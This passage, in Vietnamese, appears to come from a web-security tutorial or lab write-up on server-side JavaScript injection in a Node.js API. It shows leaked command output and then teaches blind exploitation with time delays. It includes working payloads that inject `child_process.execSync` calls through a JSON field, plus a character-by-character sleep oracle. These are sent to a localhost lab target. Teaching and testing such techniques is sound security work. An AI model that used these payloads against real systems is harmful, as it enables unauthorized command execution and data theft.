 **Kết quả**:

```json
{
  "message": "The input \"node_modules\npackage-lock.json\npackage.json\nsrc\n'"
}
```

Chúng ta đã thành công trong việc tiêm kết quả của lệnh hệ thống vào phản hồi HTTP. Kết quả là danh sách các tệp trong thư mục ứng dụng, cho thấy chúng ta đã thực thi thành công lệnh và có thể nhận được kết quả từ xa thông qua phản hồi HTTP.

---
# 14. Blind Exploitation - Phương Pháp "Sleep Timers" và "Boolean Output"

Trong các tình huống mà phương pháp tiêm mã trả về kết quả không khả thi, chúng ta có thể sử dụng hai kỹ thuật khác để khai thác lỗ hổng: **sleep timers** (bộ hẹn giờ trễ) và **boolean output** (đầu ra boolean).

### 1. **Kỹ Thuật Sleep Timers**
Kỹ thuật này dựa trên ý tưởng cơ bản rằng chúng ta có thể xác định giá trị của các ký tự trong đầu ra của lệnh bằng cách gửi các yêu cầu lặp đi lặp lại và đo thời gian phản hồi. Nếu một ký tự khớp với ký tự mà chúng ta đang kiểm tra, hệ thống sẽ tạm dừng trong một khoảng thời gian xác định (ví dụ, 1 giây). Nếu không, sẽ không có sự trì hoãn nào.

#### Cách hoạt động:
Giả sử ta muốn kiểm tra ký tự đầu tiên trong đầu ra của lệnh hệ thống (ví dụ `ls`). Cách tiếp cận là:

- Gửi một yêu cầu và kiểm tra xem có trì hoãn (delay) không. Nếu có trì hoãn, điều đó có nghĩa là ký tự đầu tiên là đúng.
- Tiếp tục kiểm tra từng ký tự trong chuỗi đầu ra cho đến khi không còn sự trì hoãn nào.

#### Thực hiện bằng cách sử dụng `sleep`:
Với việc sử dụng lệnh hệ thống `sleep`, ta có thể tạo ra một độ trễ trong phản hồi HTTP để xác định ký tự. Ví dụ:

```bash
time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUz...SNIP...1YLEvDs4SR7RHfQ" -d "{ \"text\": \"'}) + require('child_process').execSync('sleep 2')//\" }" http://localhost:5000/api/service/generate
```

Kết quả trả về cho thấy yêu cầu mất 2 giây, do chúng ta đã sử dụng lệnh `sleep 2` trong payload.

#### Kiểm Tra Kết Quả của Lệnh:
Bây giờ, ta có thể sử dụng kỹ thuật này để xác định các ký tự trong kết quả lệnh. Ví dụ:

```json
{
  "text": "'}) + require('child_process').execSync('ls | head -c 1 | { read c; if [ \"$c\" = \"a\" ]; then sleep 2; fi; }')//"
}
```
